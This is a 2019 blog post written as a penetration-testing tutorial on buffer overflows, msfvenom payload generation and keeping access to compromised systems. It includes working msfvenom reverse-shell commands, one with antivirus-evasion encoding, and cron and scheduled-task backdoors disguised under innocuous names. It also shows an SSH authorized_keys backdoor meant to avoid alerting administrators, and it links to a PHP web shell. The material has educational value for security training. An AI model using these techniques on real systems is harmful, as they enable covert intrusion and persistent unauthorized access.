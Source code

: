 ```yaml
---
layout: post
title: Exploitation and Post - Maintaining Access
subtitle: Maintaining Access
gh-badge:
  - star
  - fork
  - follow
tags:
  - Exploitation
  - Post
  - Hacking
  - Maintaining Access
  - Systems
comments: true
published: true
date: '2019-05-28'
---
```

Often exploitation of systems can be very loud, and can draw a lot of attention. This is why Penetration Testers need to maintain access to the systems that they successfully attack. Thankfully, there are many tools for both Windows and Linux that are built in and allow the attacker to maintain access. 

## A Simple Exploit

Before I go into methods of maintaining access, we must first know the whole picture on how an exploit works. We will a simple Buffer Overflow, with no ASLR/NX Bits/DEP. I'll get into bypassing those in a later time span. So, how a normal buffer overflow works is an attacker overwrites the space of a buffer with any junk characters to gain control of a certain area called the **EIP** or Extended Instruction Pointer, which is used in assembly. Assembly is one of the lowest level languages out there, and it's possibly the most important for any red teamer/penetration tester to learn. 

![Screenshot of CPU Register, provided by NullBytes]({{site.baseurl}}/img/image.w1456.jpg)


Back to the EIP. In it's simplest form it points to code. If we can have it point to code, there's a large chance we can also execute code as well. So what we have so far is some garbage character, it could be anything from 0-9, A-F. After we have overwritten the buffer, we typically have the EIP, which we want to control to point to a function. This varies from program to program, but one common function is JMP ESP that we could take control of. If we told the EIP to point to the memory address of JMP ESP, we could in theory gain command execution on the system. So if we were to tell the EIP to point to JMP ESP we could easily gain access to the individuals system with a peice of code called **Shellcode**. An example script may look like so:

``` #!/usr/bin/python
 #Demo Buffer Overflow script
 overflow = "A" * 192
 EIP = 41424344
 nops = "\x90" * 16
 shellcode = <Ommitted>
 exploit = overflow + EIP + nops + shellcode
```

For additional Buffer Overflow resources I recommend reading Samsclass article on Vulnserver
https://samsclass.info/127/proj/vuln-server.htm
As well as dostackbufferoverflowgood
https://github.com/justinsteven/dostackbufferoverflowgood

## Shellcode

This will look a little bit less pretty and a little more complex in the real world however. But for now, we're at the point that I would like to get to -- **Shellcode**. Shellcode is used to gain access to a victims system, and it is typically generated by a tool called **msfvenom**. It can be found within the Metasploit Framework. There are two types of payloads, Staged and Stageless. Stageless payloads can be caught with any sort of listener, for example, a **NetCat**. 

## Generating Payloads with msfvenom

Stepping back a little bit to payloads and how we generate them. Generating them is quite simple with a tool called msfvenom, the whole purpose of the tool is to generate payloads, which payload you select will be dependant on your needs. Do you want a bigger payload, but with less data being sent across network you're attacking? Or, do you need a smaller payload because of the amount of buffer space allocated? Considering these things may help you pick a certain payload over another. To help you decide which payload you might want to use you can execute:

```
msfvenom --list payloads
```
You can always pipe the output to grep to help narrow down the search results
```
msfvenom --list payloads | grep linux | grep meterpreter
```

Typically you can use a standard reverse_tcp listener. To generate a sample payload, you would execute these commands depending on the Operating System you're attacking:

```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=1337 LHOST=10.13.37.10 -f exe > shell.exe
msfvenom -p linux/meterpreter/reverse_tcp LPORT=1337 LHOST=10.13.37.10 -f elf > shell.elf
```

In certain cases you may want to include Encoders to evade basic anti-virus/anti-malware scans (-e), and exclude certain characters that may not execute your shellcode properly (-b), or even put it into a different format (-f) that allows you to drop the shellcode into a python script, you may want to do this in a buffer overflow script, for example.

```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=1337 LHOST=10.13.37.10 -b \x00 -e x86/shikata_ga_nai -f python
```

Up until this point I have only talked about meterpreter based payloads, which are staged. That's interesting, but how do I get a shell. Well, you can use another tool within the metasploit framework. To enter the main part of the metasploit framework you can execute the following:

```
msfconsole
```

What you do after very much depends on what you want to do, but for payloads it's pretty standard, you must change the payload, listening host, and listening port to be the same that you used when you generated the shellcode. Refer to the image below on how to catch a staged payload.

![2_meterpreter_gotit.png]({{site.baseurl}}/img/2_meterpreter_gotit.png)

## Maintaining Access

So after you have successfully exploited a system, what are some methods you can use to maintain access? Well reader, if you've made it to this part, congradulations, and there are several methods I will show.

## Task Scheduling Methods

Both Linux and Windows include ways to automatically execute tasks after every set period of time, this can easily be abused to create a backdoor into any system. In windows we can use a tool called Task Schedule, in Linux we can use a tool called Cron. The easiest way is to execute the shell file itself every 30 minutes, there are more complex ways to go about doing it, but this is the easiest way to backdoor a system with Task schedule/Cron. Please refer below for the exact commands/syntax.

```
Cron w/ Linux
root@localhost:~#crontab -e
and add a line
30 * * * * /root/.mysupersecretdir/.mysecretphotos/picofme
Change file location/name as needed

Task Schedule w/ Windows
C:\Windows\Font\> SCHTASKS.EXE /Create /tn “Windows Font Updater Application” /sc minute /mo 30 /tr C:\Windows\Font\updater.exe
Change file location/name as needed.
```

## SSH

Secure Shell, or SSH is a protocol used to remotely and securely access systems. Let's say you've gained access, a process that could be exploiteded was running as root/administraitor and you'd like to be able to re-access the system without re-exploiting it. How could we do this? We wouldn't want to change the administrators password or else they would know there's an issue and you could be discovered. SSH uses a system of public and private keys. If a device knows another devices public key and is in a certain file (the authorized hosts file in the root .ssh directory) a device may ssh into it without authenthication. This may look like

```
root@system:~# cd /root/.ssh/
root@system:~# touch authorized_keys
root@system:~# echo "Insert Public key Here" >> authorized_keys
root@system:~# exit
root@attacker:~# ssh root@192.168.1.2
~Welcome to Ubuntu 18.04 root~
root@system:~#
```
Windows 10 and later now contain SSH by default, the method above can also be used.

## More Intrusive Methods

Web Server's, most of us have one, and around 80% of them are running PHP. Knowing this, we could leave a hidden PHP file somewhere on the web server, this is a very risky method and could easily be discovered by almost anyone, namely because random files with public IP addresses do not appear out of nowhere. Another method you could use is placing a PHP "Web Shell" which allows commands to be executed. One can be found here:

https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985

If I can come up with any other methods, I will update to include them :)
